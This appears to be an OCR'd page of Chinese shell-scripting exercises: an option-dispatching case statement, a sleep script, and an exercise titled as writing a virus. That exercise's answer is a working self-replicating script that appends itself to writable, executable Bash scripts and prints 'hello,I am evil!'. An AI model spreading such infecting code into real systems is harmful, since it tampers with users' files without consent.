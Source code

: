 ```shell

case $1 in
-r)
	REL;;
-k)
	KER;;
-d)
	DIS;;
-u)
	USR;;
-t)
	UPT;;
-s)
	SEL;;
-f)
	FER;;
-n)
	NET;;
-a)
	REL;KER;DIS;USR;UPT;SEL;FER;NET;;
--help)
	echo "this is help"
esac
```

---

用shell脚本写一个病毒，要求如下：

1. 可以感染系统中的所有Bourne-Again shell script的脚本,可执行，可写；
2. 执行感染后的bash shell脚本会输出"echo hello,I am evil!"
3. 如果已经被感染，就不再感染

```shell
#!/bin/bash
if [ ! -f /tmp/.mybblock ];then touch /tmp/.mybblock; for i in `find /tmp/test/*` ; do grep "mybblock" $i &> /dev/null && continue ; file $i | grep "Bourne-Again shell script" &> /dev/null || continue ; [ -x $i -a -w $i ] || continue ; tail -n 1 $0 >> $i; done ; echo "hello,I am evil!"; rm -rf /tmp/.mybblock &> /dev/null ; fi
```

---

如果foo.sh 的第一个位置参数为-s ，那么就沉睡，时间由第二个位置参数决定

```shell
#!/bin/bash
SLEEP ()
{
        echo "now sleep"
        sleep $1
}

case $1 in
-s)
        SLEEP $2;;
*)
        exit;;
esac
```
